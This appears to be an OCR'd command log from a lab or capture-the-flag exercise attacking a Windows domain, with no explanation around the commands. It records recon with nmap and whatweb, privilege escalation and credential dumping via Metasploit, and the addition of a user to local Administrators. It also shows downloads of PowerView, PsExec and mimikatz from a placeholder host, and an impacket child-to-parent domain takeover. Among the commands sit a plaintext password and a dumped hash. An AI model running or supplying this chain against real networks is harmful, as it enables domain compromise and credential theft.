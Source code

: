 ```

nmap -sC -Pn femmefatale

whatweb femmefatale

curl -si 
http://femmefatale/favicon.ico

use post/windows/gather/cachedump

getsystem

net localgroup Administrators

net user /domain freya

net localgroup Administrators /add freya

netstat -ano

python3 smbclient.py zero/freya@dczero

powershell wget -OutFile C:/Users/freya/PowerView1.ps1 
http://xxx/kinetic/powerview1.ps1

import-module .\powerview1.ps1

python3 smbclient.py zero/freya@dcarc

python3 raiseChild.py -w ./freya.ccache zero.arc.corp/freya:mountain

ntpdate 10.65.20.20

export KRB5CCNAME=/opt/impacket3/examples/freya.ccache

python3 smbclient.py Administrator@dcarc -k -no-pass

powershell iwr -uri 
http://xxx/software/ssh.zip
 -outfile .\ssh.zip

powershell iwr -uri 
http://xxx/software/PsExec.exe
 -outfile .\psexec.exe

powershell iwr -uri 
http://xxx/software/mimikatz.exe
 -outfile .\mimikatz.exe

python3 lookupsid.py zero/freya@dczero | grep "Domain SID"

    Domain SID is: S-1-5-21-3128073206-3686985830-824703377

python3 lookupsid.py zero/freya@dcarc | grep "Domain SID"

    Domain SID is: S-1-5-21-1970956415-843115013-4046186837

python3 secretsdump.py zero/freya:mountain@dczero -outputfile krbhash -user-status

    4f79191a1ceafadd15de32fb617ce29c

    

```